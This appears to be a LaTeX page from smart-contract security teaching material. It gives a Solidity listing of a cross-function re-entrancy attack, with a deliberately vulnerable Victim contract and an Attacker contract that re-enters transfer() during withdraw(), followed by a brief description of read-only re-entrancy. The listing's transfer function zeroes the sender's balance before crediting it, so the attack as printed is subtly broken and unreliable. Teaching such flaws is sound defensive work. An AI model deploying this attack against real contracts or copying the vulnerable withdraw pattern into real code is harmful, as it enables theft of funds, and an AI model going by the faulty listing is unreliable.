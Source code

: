 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
    \begin{lstlisting}[language=Solidity, caption=Cross-Function Re-Entrancy Example, label=lst:crossfunc]
contract Victim {
    mapping(address => uint) private balances;
    bool locked;

    modifier noReentrant() {
        require(!locked, "ReentrancyGuardError");
        locked = true;
        _;
        locked = false;
    }

    function withdraw() public noReentrant {
        uint amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success);
        balances[msg.sender] = 0;
    }

    function transfer(address to) public {
        balances[msg.sender] = 0;
        balances[to] += balances[msg.sender];
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
}

contract Attacker {
    Victim victim;
    uint256 private initialDeposit;

    constructor(address _vulnerable) {
        victim = Victim(_vulnerable);
    }

    function attack() public payable {
        initialDeposit = msg.value;
        victim.deposit{value: msg.value}();
        victim.withdraw();
    }

    receive() external payable {
        if (address(victim).balance > initialDeposit) {
            victim.transfer(tx.origin);
        }
    }
}
\end{lstlisting}
\end{minipage}

\noindent
Play around with this code example in \href{https://remix.ethereum.org/?#activate=solidity&url=https://github.com/radovluk/unbreakable-vault/contracts/reentrancy02.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.28+commit.7893614a.js}{prepared file in REMIX IDE}.

\subsection{Read-Only Re-Entrancy}

Read-only reentrancy is a particular case of cross-contract reentrancy
attacks. This vulnerability occurs when a smart contract's behavior depends on
the state of another contract. While attackers usually target state-changing
functions, view functions can also provide outdated state information during a
cross-contract reentrancy. This scenario can lead to the exploitation of
third-party infrastructure.
\end{document}
